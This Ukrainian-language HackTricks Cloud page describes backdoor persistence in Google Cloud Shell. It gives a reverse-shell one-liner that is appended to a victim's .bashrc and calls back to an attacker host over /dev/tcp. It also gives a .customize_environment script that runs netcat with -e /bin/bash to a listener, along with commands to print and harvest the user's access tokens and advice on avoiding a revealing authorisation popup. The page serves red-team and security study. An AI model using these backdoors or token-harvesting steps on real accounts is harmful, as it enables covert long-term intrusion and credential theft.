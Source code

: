 # GCP - Постійність Cloud Shell

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа взлому HackTricks для експертів червоних команд AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа взлому HackTricks для експертів червоних команд GCP (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}

## Cloud Shell

Для отримання додаткової інформації перегляньте:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Постійна задні двері

[**Google Cloud Shell**](https://cloud.google.com/shell/) надає вам доступ до командного рядка для ваших хмарних ресурсів безпосередньо з вашого браузера без будь-яких пов'язаних витрат.

Ви можете отримати доступ до Cloud Shell від **веб-консолі** або запустивши **`gcloud cloud-shell ssh`**.

У цій консолі є деякі цікаві можливості для атакування:

1. **Будь-який користувач Google з доступом до Google Cloud** має доступ до повністю аутентифікованого екземпляра Cloud Shell (Службові облікові записи можуть, навіть бути власниками організації).
2. Зазначений екземпляр буде **зберігати свій домашній каталог принаймні 120 днів**, якщо не відбувається жодної діяльності.
3. Немає **можливостей для організації моніторингу** діяльності цього екземпляра.

Це в основному означає, що атакуючий може розмістити задню двері в домашньому каталозі користувача, і поки користувач підключається до GC Shell принаймні раз на 120 днів, задня двері залишиться і атакуючий отримає оболонку кожного разу, коли вона запускається, просто виконавши:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Є ще один файл у домашній папці під назвою **`.customize_environment`**, якщо він існує, він буде **виконуватися кожного разу**, коли користувач отримує доступ до **хмарного шелу** (як у попередній техніці). Просто вставте попередній backdoor або один з таких, щоб зберігати стійкість так довго, якщо користувач використовує "часто" хмарний шел:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Важливо зауважити, що **перший раз, коли виконується дія, яка вимагає автентифікації**, у браузері користувача з'являється спливаюче вікно авторизації. Це вікно повинно бути прийняте перед тим, як команда може бути виконана. Якщо з'явиться неочікуване спливаюче вікно, це може викликати підозру та потенційно підірвати використану методику постійності.
{% endhint %}

Це спливаюче вікно під час виконання `gcloud projects list` з оболонки хмари (як зловмисник) переглядається в сеансі користувача браузера:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Однак, якщо користувач активно використовував cloudshell, спливаюче вікно не з'явиться, і ви можете **збирати токени користувача за допомогою**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Як встановлюється з'єднання SSH

Основні чинні API-виклики:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (змушує вас додати свій публічний ключ, який ви створили локально)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (запускає екземпляр)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (повідомляє вам IP-адресу оболонки Google Cloud)

Але ви можете знайти додаткову інформацію за посиланням [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Посилання

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
